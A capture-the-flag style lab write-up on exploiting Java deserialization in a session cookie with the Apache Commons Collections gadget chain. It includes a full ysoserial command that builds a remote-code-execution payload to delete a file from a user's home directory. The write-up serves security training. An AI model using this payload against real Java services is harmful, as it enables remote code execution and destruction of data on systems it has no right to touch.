



# Exploiting Java deserialization with Apache Commons
# Objective
This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you don't have source code access, you can still exploit this lab using pre-built gadget chains.

To solve the lab, use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
The session cookie on this webiste holds serialized Java data.
||
|:--:| 
| *Session cookie* |

## Exploitation
In order to delete `morale.txt` from `/home/carlos` directory attacker can create gadget chain payload using [ysoserial tool](https://github.com/frohoff/ysoserial). This serialized payload can grant attacker remote code execution (RCE).

Command:
```bash
java --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED --add-opens=java.base/java.net=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
```

||
|:--:| 
| *Payload generation* |
||
| *Deletion of target file* |

